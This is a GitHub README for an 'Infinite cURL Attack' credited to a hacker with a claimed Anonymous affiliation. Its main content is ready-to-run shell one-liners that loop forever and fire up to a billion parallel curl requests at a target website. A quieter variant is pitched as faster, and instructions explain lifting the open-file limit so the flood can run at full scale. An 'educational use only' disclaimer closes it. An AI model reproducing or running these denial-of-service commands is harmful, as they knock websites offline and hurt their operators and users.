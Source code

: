 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack

**USAGE** : Copy-Paste-Edit the following code (replace **_https://Your.Target.Website.com_** with your target website) in the Terminal/CMD & press Enter.  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -I -i -v -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com"; done;
```  

If you don't want logs in your terminal and make the attacks faster, do this (**the following is my preference**):  

```
while (true); do seq 1 1000000000 | xargs -n1 -P 1000000000 curl -s -H "Connection: keep-alive" -H "Referer: https://google.com" "https://Your.Target.Website.com" > /dev/null; done;
```  

**Note 1:** Reduce the numbers from **1000000000** if your system crashes. It's the number of parallel requests fired (opened files allowed) at once. Or check **Note 2**.  
**Note 2:** To bypass **open file limit (No file descriptors available)** run the following code before running the above code...  
```
ulimit -n 10000000000
```
or try out the solutions in  
**https://epi052.github.io/feroxbuster-docs/docs/faq/no-file-descriptors/**  
**https://www.cyberciti.biz/faq/linux-increase-the-maximum-number-of-open-files/**  
**https://discussions.apple.com/thread/2206502**  
etc.  

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
